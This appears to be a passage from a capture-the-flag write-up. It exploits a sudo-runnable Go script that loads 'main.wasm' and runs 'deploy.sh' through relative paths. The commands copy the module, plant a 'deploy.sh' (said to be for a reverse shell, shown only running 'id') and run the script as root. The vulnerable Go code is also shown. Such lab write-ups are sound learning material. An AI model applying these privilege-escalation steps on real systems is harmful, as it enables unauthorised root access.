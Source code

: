 rather than binaries if script not use absolute path when invoke any file from specific directory it is error out and not use env varibales to find the file.

If user execute `index.go` from outside `/opt/wasm-functions` directory it error-out.

![](screenshots/file-not-found.png)

this can be exploited by coping `main.wasm` in other directory and create `deploy.sh` with reverse shell
```bash
cp /opt/wasm-functions/main.wasm .
echo -e '#!/bin/bash\n\nid' > deploy.sh
sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
```

![](screenshots/still-something.png)

executed successfully but there is something else that stoping script from executing `deploy.sh`.

__Checking main function__
```go
func main() {
  // Reads the WebAssembly module as bytes.
	bytes, _ := wasm.ReadBytes("main.wasm")

  // Instantiates the WebAssembly module.
	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()

  // Gets the `info` exported function from the WebAssembly instance.
	init := instance.Exports["info"]

  // Calls that exported function.
	result,_ := init()

  //store result value as string in variable "f"
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

